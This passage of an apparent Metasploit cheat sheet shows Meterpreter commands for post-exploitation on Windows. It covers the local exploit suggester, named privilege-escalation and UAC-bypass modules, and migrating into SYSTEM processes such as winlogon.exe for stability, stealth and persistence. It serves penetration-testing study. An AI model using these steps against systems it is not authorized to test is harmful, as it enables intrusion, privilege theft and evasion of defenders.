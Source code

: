 ## Privilege Escalation

### Local Exploit Suggester
```bash
# Background current session
meterpreter > bg

# Use exploit suggester
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

### Common Privilege Escalation Modules
```bash
# Windows escalation exploits
msf6 > use exploit/windows/local/ms15_051_client_copy_image
msf6 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf6 > use exploit/windows/local/ms10_015_kitrap0d
```

### UAC Bypass
```bash
# UAC bypass techniques
meterpreter > use exploit/windows/local/bypassuac
meterpreter > use exploit/windows/local/bypassuac_injection
```

## Process Migration

### Why Migrate?
- **Stability**: Move from unstable process to stable one
- **Persistence**: Attach to long-running processes
- **Privileges**: Inherit target process privileges
- **Stealth**: Hide in legitimate processes

### Migration Process
```bash
# List processes
meterpreter > ps

# Migrate to target process
meterpreter > migrate <pid>

# Migrate to specific process by name
meterpreter > migrate -N explorer.exe
```

### Best Migration Targets
```bash
# Stable system processes
explorer.exe       # Windows Explorer (user context)
winlogon.exe       # Windows Logon (SYSTEM context)
services.exe       # Service Control Manager (SYSTEM)
svchost.exe        # Generic Host Process (various contexts)
```
